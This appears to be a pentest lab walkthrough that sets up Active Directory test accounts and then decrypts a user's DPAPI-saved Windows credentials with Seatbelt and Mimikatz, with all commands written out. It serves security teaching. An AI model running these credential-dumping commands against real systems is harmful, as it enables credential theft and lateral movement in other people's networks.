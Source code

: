 ```yaml
---
description: >-
  DPAPI stands for Data Protection API. Which is used by windows to securely
  save credentials.
---
```


# Dumping DPAPI

## Configuring

1. Login to `DC03` as the `Administrator` user with the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" management tool and open the "Users" directory. Right click the "Users" directory and click "New User"
3. Create a user with the name `sa_backup` and the password `LS6RV5o8T9`. Make sure you deselect "User must change password at next logon" and select "Password never expires".

![](<../../.gitbook/assets/image (67) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (62) (1) (1) (1) (1) (1).png>)

4\. Add the user to the "Account operator" and "Backup Operator" groups via the interface, memberof section or run the following command:

```
Add-ADGroupMember "Account Operators" -Members sa_backup
Add-ADGroupMember "Backup Operators" -Members sa_backup
Add-ADGroupMember "Server Operators" -Members sa_backup
```

5\. Login with the `sa_sql` user and the password `Iloveyou2` on `DATA01`.

6\. Click start and open the "Credential Manager".

![](<../../.gitbook/assets/image (64) (1) (1) (1) (1).png>)

7\. Click on the "Windows Credentials" tab and select "Add a Windows credential".

![](<../../.gitbook/assets/image (12) (1) (1) (1) (1).png>)

8\. Fill in the following information:

* Internet or network address: `secure.local`
* User Name: `sa_backup`
* Password: `LS6RV5o8T9`

![](<../../.gitbook/assets/image (21) (1) (1).png>)

## Attacking

### How it works

When you have comprimised a system and if a user is currently logged in you can retrieve its DPAPI masterkey and decrypt the saved credentials. This is also possible if you have the password of a user. These saved credentials might give you access to other systems or higher privileges within the domain and can be used for lateral movement.

### Tools

* [Seatbelt](https://github.com/GhostPack/Seatbelt)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)

### Executing the attack

1. One of the things I like to do when gaining access to a system is running Seatbelt. This tool will check many things like permissions, groups and for stored credentials. The tool describes itself as:

> Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.

The tool is great for detecting DPAPI secrets.

2\. To run Seatbelt and do some of it checks we can run the following command:

```
.\Seatbelt.exe -group=user
```

3\. In the output of the section WindowsCredentialFiles we can see that the user `sa_sql` has some credentials saved:

![](<../../.gitbook/assets/image (18) (1) (1) (1) (1).png>)

4\. We can find the master encryption key id and some information about the saved credentials with the following Mimikatz command using the previous path and FileName:

```
./mimikatz.exe
dpapi::cred /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Credentials\02BF8752741C7A447536E822E53153CD
```

![](<../../.gitbook/assets/image (12) (1) (1) (1).png>)

The `pbData` field contains the encrypted data and the `guidMasterKey` contains the GUID of the key needed to decrypt it.

{% hint style="info" %}
The latest compiled version of Mimikatz doesn't work on server 2022. Compiling the latest commit with Visual Studio 2019 gave me some errors, but this [https://github.com/matrix/mimikatz/tree/type\_cast-pointer\_truncation\_x64](https://github.com/matrix/mimikatz/tree/type\_cast-pointer\_truncation\_x64) repostorie/pull request worked for me without errors! I really hate compiling tools like this, always errors :cry:
{% endhint %}

5\. The next step is to retrieve the masterkey with the password of the user. Luckily we had its password from the previous pages were we captured the NTLMV2 hash after doing a UNC path injection through the SQL Service and cracked it. The password of the `sa_sql` user was `Iloveyou2`. With the following Mimikatz command we can retrieve the masterkey:

```
dpapi::masterkey /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Protect\S-1-5-21-1498997062-1091976085-892328878-1106\e1f462bb-9a65-40f0-a144-4f64bea97ce2 /sid:S-1-5-21-1498997062-1091976085-892328878-1106 /password:Iloveyou2 /protected
```

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

6\. We were able to retrieve the Masterkey, it it shown at the end of the output. Now we can read the saved credentials with the masterkey using the following Mimikatz command:

```
dpapi::cred /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Credentials\02BF8752741C7A447536E822E53153CD /masterkey:b3e8630e96acba990f836b4462a9285a4c987776f17f11b2559d9fdf67d03cf6b99dd89445d5641aef6f4477f7354eb6f19e3053e1d56712f45bc227249cdea2
```

![](<../../.gitbook/assets/image (2) (1) (1) (1).png>)

First we get the output of the first mimikatz command we ran, some information about the credentials. The output shows is the saved credential for the `sa_backup` user with the password `LS6RV5o8T9`.

7\. With the help of PowerView we can quickly check if this user has any value:

![](<../../.gitbook/assets/image (4).png>)

In PowerView we can see that `sa_backup` is member of the `Account Operators` en `Backup Operators` groups. These groups are interesting!

## Defending

### Recommendations

* Don't save RDP credentials in Windows.

### Detection



## References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords" %}
